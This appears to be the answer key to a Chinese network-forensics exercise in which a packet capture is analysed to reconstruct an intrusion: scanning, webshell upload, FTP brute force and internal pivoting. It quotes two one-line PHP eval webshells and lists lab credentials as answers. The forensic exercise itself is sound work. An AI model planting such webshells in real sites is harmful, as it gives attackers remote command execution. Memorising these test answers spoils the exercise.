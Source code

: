 N-EM-00004
---
黑客用扫描器发现并且利用了某公司服务器存在漏洞，通过漏洞登录到了服务器，并且通过该服务器进行了内网渗透破解了一台ftp服务器并且下载了敏感文件和 入侵了内部网络的其他web服务器。你现在获得了攻击时间段所有的流量包，请基于次分析溯源黑客在攻击过程中做了哪些操作？
1. 攻击者的ip地址是多少？
```
172.16.10.110
```
2. 攻击者使用了哪个web扫描器对目标网站进行了扫描？（大写缩写）
```
AWVS
```
3. 黑客发送给目标服务器第一个http请求的时间是？（注：北京时间，格式为时:分:秒）
```
17:29:46
```
4. 目标服务器网站密码的密文是什么？
```
8b1de2e14d5e008c81ad
```
5. 目标服务器后台的目录名是什么？
```
admin
```
6. 目标网站的后台账号密码为是？（格式为账号:密码）
```
admin:19901109
```
7. 黑客上传的一句话木马内容是？
```
<?php @eval($_POST['m'])?>
```
8. 黑客通过菜刀连接后，执行了whoami，返回当前的用户是？
```
administrator
```
9. 目标服务器系统的安装时间是？（注：北京时间，格式为时:分:秒）
```
10:14:19
```
10. 目标服务器操作系统administrator密码为是什么？
```
mtfly@123
```
11. 网站连接数据库的账号密码是什么？（格式为账号:密码）
```
root:root
```
12. 黑客登录成功ftp服务器之前，总共爆破的次数是？
```
146
```
13. 黑客从ftp服务器上下载了一个文件，该文件的大小是？（单位Bytes）
```
520924
```
14. 黑客将内部web服务器80端口转发到了黑客的哪个端口？
```
8888
```
15. 黑客将映射过来的端口，监听转发到了自己的哪个端口？
```
80
```
16. 黑客网内网web服务器中写入的一句话木马内容是？
```
<?php @eval($_POST['t'])?>
```
17. 黑客利用菜刀执行了几条命令，whoami后的那条命令是？
```
uname -a
```
18. 内网web服务器网站连接数据库账号密码是什么？（格式为账号:密码）
```
root:123456
```
